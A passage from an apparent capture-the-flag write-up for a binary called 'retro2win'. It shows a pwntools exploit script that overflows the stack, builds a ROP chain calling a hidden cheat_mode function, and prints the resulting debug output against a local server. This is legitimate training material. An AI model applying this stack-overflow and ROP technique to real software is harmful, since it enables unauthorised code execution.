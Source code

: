 ```python
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './retro2win'
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(64))

# Start program
io = start()

# Navigate through the menu to reach the cheat code entry
io.sendlineafter(b'Select an option:', b'1337')  # Enter hidden option

# ROP object
rop = ROP(elf)
rop.cheat_mode(0x2323232323232323, 0x4242424242424242)

# Build the payload
payload = flat({
    offset: [rop.chain()]
})

pprint(rop.dump())

# Send the payload
io.sendlineafter(b'cheatcode:', payload)

# Get flag
io.interactive()
```
{% endcode %}

For some reason, it only comes through in the debug. Not sure if this is down to my exploit, the config on the server env (maybe the `socat` command in the dockerfile) or the C code itself. I CBA to debug, you'll work it out! 😅

{% code overflow="wrap" %}
```bash
[+] Opening connection to 127.0.0.1 on port 1338: Done
[DEBUG] Received 0xa8 bytes:
    b'*****************************\r\n'
    b'*       Retro2Win Game      *\r\n'
    b'*****************************\r\n'
    b'1. Explore the Forest\r\n'
    b'2. Battle the Dragon\r\n'
    b'3. Quit\r\n'
    b'\r\n'
    b'Select an option:\r\n'
[DEBUG] Sent 0x5 bytes:
    b'1337\n'
[*] Loaded 14 cached gadgets for './retro2win'
('0x0000:         0x4009b3 pop rdi; ret\n'
 '0x0008: 0x2323232323232323 [arg0] rdi = 2531906049332683555\n'
 '0x0010:         0x4009b1 pop rsi; pop r15; ret\n'
 '0x0018: 0x4242424242424242 [arg1] rsi = 4774451407313060418\n'
 "0x0020:      b'iaaajaaa' <pad r15>\n"
```